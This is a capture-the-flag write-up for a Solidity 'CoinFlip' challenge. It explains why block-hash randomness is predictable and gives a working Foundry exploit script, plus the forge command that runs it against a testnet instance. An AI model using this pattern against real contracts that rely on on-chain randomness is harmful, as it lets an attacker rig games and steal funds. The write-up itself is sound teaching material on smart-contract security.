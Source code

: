 ```solidity
        }
    }
}
```
Here Vulnerability lies in the line `uint256 blockValue = uint256(blockhash(block.number - 1));`

The Ethereum Virtual Machine (EVM) provides access to the block hashes of the 256 most recent blocks, excluding the current block. This means that when our `flip()` function is called in block N, the `blockhash(block.number - 1)` will be the hash of block N-1, which has already been mined and is publicly known on the blockchain.

So I know `blockValue` and `FACTOR` --> the side of a coin is **predictable**. 

To solve the challenge  I need to calculate (as same as CoinFlip contract) the side of the coin using previous block hash and then call `flip` function using calculated side of coin.(calculating and calling should be in the same TX).

**Here's the Foundry script that solves the challenge**
```foundry
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import {CoinFlip} from "../src/CoinFlip.sol";
import {Script } from "forge-std/Script.sol";
import "forge-std/console.sol";


contract Player {
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    constructor(CoinFlip _coinflipInstance) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        _coinflipInstance.flip(side);
    }
}
contract CoinFlipSolution is Script{

    CoinFlip coinflipInstance = CoinFlip(0x87d21355195d253C9fEED5941E91440C67c98746);
    
    function run() public payable {
        vm.startBroadcast();
        new Player(coinflipInstance);
        console.log("Consecutive Wins: ", coinflipInstance.consecutiveWins());
        vm.stopBroadcast();
    }
}
```
I ran the following command 10 times in the terminal , everytime I run consecutive wins increase .
```terminal
forge script script/CoinFlipSolution.s.sol:CoinFlipSolution --private-key $PRI
VATE_KEY --rpc-url $SEPOLIA_RPC_URL --broadcast
```

---